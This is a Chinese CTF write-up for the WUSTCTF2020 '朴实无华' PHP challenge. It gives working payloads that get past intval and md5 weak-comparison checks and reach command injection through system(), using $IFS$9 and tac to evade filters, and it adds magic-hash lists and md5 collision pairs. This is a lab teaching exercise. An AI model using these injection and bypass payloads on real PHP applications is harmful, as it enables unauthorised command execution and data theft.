




# WUSTCTF2020-朴实无华1

启动靶机并访问，发现啥也没有，访问/url/robots.txt



找到个/fAke_f1agggg.php

访问一下



发现不是flag，我们抓包看看，抓`http://ac5d9feb-9ba3-4337-97aa-811aa139dfa0.node5.buuoj.cn:81/fAke_f1agggg.php`的包



发现一个/fl4g.php

我们访问一下，要开始熟悉的代码审计了，这里在谷歌浏览器一堆乱码，在火狐里打开按alt然后点查看，修复页面编码即可

```

Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/fl4g.php:2) in /var/www/html/fl4g.php on line 3

<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
去非洲吧
```

---

很明显最终要命令执行拿到flag，并且我们要绕过三个关卡。

**首先第一个**

```
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
```

这里要我们用get方法传入一个num，并且intval($num)要小于2020，intval($num + 1)要大于2021。

这里使用科学计数法绕过

```
?num=2e4

原理：
我们传入的值默认是字符串，而第一个intval($num)会将首个字母前的数字转化为整数，所有就会等于2，小于2020
而第二个intval($num + 1)，会先将$num即"2e4"转化为整数20000然后加1，就会等于20001，大于2021
成功绕过
```

注意：这里绕过只在php7.0版本以下可行，在7.0版本以上intval('2e4')的值为20000，没有上面的特性

---

第二个

```
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}
```

这里很明显要使$md5 == md5($md5)，即可绕过，我们可以传入一些特殊的值，在php弱类型比较中0e后面只有数字的字符串

比如0e123124，在弱类型比较中都为0，所以我们需要传入一个这种类型的数，让其md5后的字符串也为0exxx的类型

```
0e215962017
md5('0e215962017')			#0e291242476940776845150308577824


&md5=0e215962017
```

---

第三关

```
//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
```

这里只要我们成功绕过就能执行system函数，执行我们输入的命令，但是有过滤，`strstr($get_flag," ")`过滤了空格，`str_ireplace("cat", "wctf2020", $get_flag);`过滤了'cat'。

```
在命令执行中，空格可以用$IFS、${IFS}、$IFS$1、$IFS$9来代替
cat命令可以用more、less、head、tail、sort、ca\t、tac代替
```

我们这里就用$IFS$9和tac了

```
&get_flag=tac$IFS$9flag
```

最终payload：

```
先用ls查看下当前目录，结合前面的payload
?num=2e4&md5=0e215962017&get_flag=ls

发现一个文件fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```



```
读取该文件
?num=2e4&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

拿到flag

```
flag{5f0404c6-3258-4b55-a741-3695ec2567a5}
```

---

## 知识点

### intval特性（php7.0以下）

只在php7.0以下版本有效

intval中在转化字符串变量时，而将变量首个字母前的数字转化为整数，

```
比如
echo intval('2e4');

#2
```

当在intval中进行算术运算时，比如

```
intval('2e4' + 1);
```

会先将2e4当成科学计算法，转化为数值，即20000，然后再进行运算

```
echo intval('2e4' + 1);

#20001
```

---

### md5()

#### md5弱类型比较

**题目一：**

**一个字符串与[md5加密](https://so.csdn.net/so/search?q=md5加密&spm=1001.2101.3001.7020)后的值相等**

```
if($md5 == md5($md5))
```

特性：0exxx类型字符串在php弱类型比较中的值都为0

题目要求一个字符串与[md5加密](https://so.csdn.net/so/search?q=md5加密&spm=1001.2101.3001.7020)后的值相等，通过上面PHP 0e漏洞的原理，也就将此题转化成 ==>寻找一个字符串（0e开头）加密后（还是0e开头），弱比较相等。

```
特殊值
0e215962017

echo md5('0e215962017');

#0e291242476940776845150308577824
```

---

题目二：

**两个字符串md5后进行弱类型比较相等**

```
<?php
header("Content-Type:text/html;charset=utf-8");
show_source(__FILE__);
include('flag.php');
$username = $_GET['username'];
$password = $_GET['password'];
if($username != $password){
    if(md5($username) == md5($password)){
        echo 'GET_FLAG：'.$flag;
    }else{
        echo 'md5校验出错...';
    }
}else{
    echo '用户名密码不能相等！';
}
?> 用户名密码不能相等
```

题目中，要求两个字符串值不能相等，但是两个字符串经过md5加密后的值需要相等，通过上面PHP 0e漏洞的原理，也就将此题转化成 ==> 寻找两个值加密后以0e开头，且0e后面是纯数字的字符串即可，

```
240610708 
0e462097431906509019562988736854
 
314282422 
0e990995504821699494520356953734
 
571579406 
0e972379832854295224118025748221

QLTHNDT 
0e405967825401955372549139051580
 
QNKCDZO 
0e830400451993494058024219903391
 
EEIZDOI 
0e782601363539291779881938479162
 
TUFEPMC 
0e839407194569345277863905212547
 
UTIPEZQ 
0e382098788231234954670291303879
```

---

#### md5强类型比较

题目：

```
<?php
header("Content-Type:text/html;charset=utf-8");
show_source(__FILE__);
include('flag.php');
$username = $_GET['username'];
$password = $_GET['password'];
if($username != $password){
    if(md5($username) === md5($password)){
        echo 'GET_FLAG：'.$flag;
    }else{
        echo 'md5校验出错...';
    }
}else{
    echo '用户名密码不能相等！';
}
?> 用户名密码不能相等！

```

全等运算符“===”，既比较值又比较类型，题目中“!=”意思为“不等于”，具体可查看菜鸟教程关于“!=”说明，值不相等时返回“ture”，也就是说两个参数值要不相等，两个参数在md5加密后全相等，也就是说两个参数在md5加密后不仅值相等类型也要一致，此时就无法利用PHP 0e漏洞了，需要别的方法绕过。可以利用md5在加密字符串时会warining，输出结果为NULL，传入两个数组，这样就能使两个参数在md5加密后的类型是一致的。

payload:?username[]=1&password[]=2

#### md5强碰撞（绕过强类型比较）

两个字符串不同，但是md5加密后的值相同，这就是md5碰撞，可以通过工具生成，这里有两个例子，可以用来绕过强类型比较

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```


#### 算数运算配合自动类型转换

md5()遇到算数符时，会先运算，再计算结果的md5值

所以，当字符串与数字类型运算时，会将字符串转换成数字类型再参与运算，最后计算运算结果的MD5值

```
echo md5(3).PHP_EOL;
echo md5('2' + 1).PHP_EOL;

eccbc87e4b5ce2fe28308fd9f2a7baf3
eccbc87e4b5ce2fe28308fd9f2a7baf3
```

